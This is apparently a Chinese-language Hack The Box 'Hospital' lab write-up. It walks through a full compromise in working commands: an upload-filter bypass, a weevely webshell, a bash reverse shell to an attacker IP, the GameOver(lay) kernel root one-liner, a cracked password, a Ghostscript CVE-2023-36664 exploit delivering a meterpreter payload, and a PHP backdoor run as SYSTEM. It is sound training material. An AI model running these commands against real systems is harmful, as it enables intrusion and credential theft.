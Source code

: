 ```yaml
---
title: HTB Hospital Writeup
date: 2024-4-23
categories: LabWriteup,HackTheBox
tags: VulnerabilityRecurrence,PrivilegeEscalation
---
```


### Portinfo：

```bash
nmap 10.10.11.241 -n -Pn -p- -sT --min-rate 2000
```

![image-20240421173314650](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421173314650.png)

```bash
nmap 10.10.11.241 -p22,53,88,135,139,443,445,389,1801,2103,2105,2107,2179,3389,6404,6406,6407,6409,6617,6639,8080,9389 -sC -sV -oN portinfo.txt -Pn
```

![image-20240421180444299](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421180444299.png)

目标域名为**hospital.htb**，Windows机器，但是有Ubuntu的SSH服务，疑似存在容器，端口映射的现象。

### GetShell：

8080端口运行一个web服务：

![image-20240421182950757](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421182950757.png)

获取目录信息：

```
dirsearch -u http://hospital.htb:8080/
```

![image-20240421193832599](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421193832599.png)

没有账号密码，但是在以下地址可以注册一个：

```
http://hospital.htb:8080/register.php
```

![image-20240421183025332](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421183025332.png)

登录成功有一个文件上传接口：

![image-20240421183148093](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421183148093.png)

目标站点是PHP类型的，尝试上传php文件：

![image-20240421184745988](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421184745988.png)

如果将其更改为pdf会上传成功：

![image-20240421184926194](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421184926194.png)

枚举可上传的php执行文件后缀：

```bash
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

![image-20240421193345218](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421193345218.png)

执行枚举：

![image-20240421193303411](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421193303411.png)

**phar**可以正常上传：

![image-20240421193852873](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421193852873.png)

phpinfo里显示了一堆函数被禁用：

![image-20240421194500241](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421194500241.png)

可以用weevely自动化bypass disable_functions，生成webshell：

```bash
weevely generate 'password123' backdoor.phar
```

上传后使用weevely进行连接并反弹shell：

```bash
weevely http://hospital.htb:8080/uploads/backdoor.phar password123
```

![image-20240421202342884](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421202342884.png)

```bash
bash -c "/bin/bash -i >& /dev/tcp/10.10.16.28/443 0>&1"
```

收到shell：

![image-20240421202405970](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421202405970.png)

### GetDrwilliams：

升级shell：

```bash
script -qc /bin/bash /dev/null
CTRL+Z;
stty raw -echo; fg; 
reset;
screen;
```

查看内核版本：

![image-20240421202904391](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421202904391.png)

该内核版本有提权漏洞：

```
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----887fd3d6fee9--------------------------------
```

输入如下命令：

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

![image-20240421203224697](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421203224697.png)

读取passwd：

![image-20240421203527409](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421203527409.png)

读取shadow：

![image-20240421203609501](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421203609501.png)

破解shadow可以获取到drwilliams用户的密码：

![image-20240421204003410](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421204003410.png)

```bash
drwilliams:qwe123!@#
```

### GetDrbrown：

使用密码可以访问443端口的mail服务：

![image-20240423173927648](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240423173927648.png)

GhostScript存在一个CVE-2023-36664，漏洞分析可看以下文章：

```http
https://www.kroll.com/en/insights/publications/cyber/ghostscript-cve-2023-36664-remote-code-execution-vulnerability
```

EXP可以在github上找到：

```http
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
```

使用msfvenom生成exe：

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.28 LPORT=443 -f exe -o shell.exe
```

![image-20240424102229515](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424102229515.png)

制作payload：

```bash
 python CVE_2023_36664_exploit.py --inject --payload 'cmd.exe /c \\\\10.10.16.28\\share\\shell.exe' --filename file.eps
```

![image-20240424102518769](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424102518769.png)

启动smbserver：

```bash
smbserver.py share . -smb2support
```

![image-20240424102543137](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424102543137.png)

对邮件进行回复：

![image-20240424102823767](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424102823767.png)

共享被访问：

![image-20240424102951089](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424102951089.png)

监听到Meterpreter会话：

![image-20240424103244935](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424103244935.png)

为保证不必要的麻烦，进行进程迁移：

![image-20240424103343817](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424103343817.png)

用户flag：

![image-20240424142047940](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142047940.png)

GetSystem：

获取web权限：

```
upload /usr/share/webshells/php/simple-backdoor.php
```

![image-20240424142320186](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142320186.png)

Web服务是以system权限运行的：

```bash
curl -k https://hospital.htb/simple-backdoor.php?cmd=whoami
```

![image-20240424142452737](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142452737.png)

上传木马：

```bash
upload /home/kali/Expliot/CVE-2023-36664-Ghostscript-command-injection/shell.exe
```

![image-20240424142703802](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142703802.png)

启动木马：

```bash
curl -k https://hospital.htb/simple-backdoor.php?cmd=shell.exe
```

![image-20240424142805471](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142805471.png)

收到会话回连：

![image-20240424142728347](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142728347.png)

获取root.txt:

![image-20240424143048321](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424143048321.png)
